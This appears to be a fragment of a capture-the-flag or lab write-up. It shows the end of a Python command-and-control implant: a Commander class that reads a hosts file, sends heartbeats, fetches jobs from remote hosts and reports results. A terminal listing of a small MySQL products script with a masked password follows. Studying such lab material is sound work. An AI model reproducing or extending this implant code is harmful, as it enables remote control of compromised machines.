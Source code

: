 ```bash
            else:
                job['success'] = False
                job['result'] = 'No command'
                self.send_c2_message('job-result', job)
        except ConnectionError:
            print('Could not get job')
        except TypeError:
            print('Job formatting error')
        except json.JSONDecodeError:
            job = {'success': False, 'result': 'JSON error'}
            self.send_c2_message('job-result', job)
            print('JSON error')    
        except binascii.Error:
            job = {'success': False, 'result': 'Encoding error'}
            self.send_c2_message('job-result', job)
            print('Encoding error')
        except Exception as e:
            print(f'Job execution error ({e})')


if __name__ == "__main__":
    log_dir = Path('/home/ada/.implant')
    hosts_file = Path('/home/ada/.implant/hosts')

    if hosts_file.exists():
        hosts = hosts_file.read_text().split('\n')

        commanders = [Commander(host, log_dir) for host in hosts if host != '']

        for commander in commanders:
            commander.send_heartbeat()
            time.sleep(1)
            commander.get_job()
            commander.save_log()
```

<h4>products.py</h4>
<p>

- host = localhost<br>
- database = app<br>
- user = app<br>
- password = ********</p>

```bash
ada@...:~$ cat products.py
import mysql.connector

db = mysql.connector.connect(
    host='localhost', 
    database='app', 
    user='app', 
    password='********'
    )

cursor = db.cursor()
cursor.execute('SELECT * FROM products')

for product in cursor.fetchall():
    print(f'We have {product[2]}x {product[1]}')
```
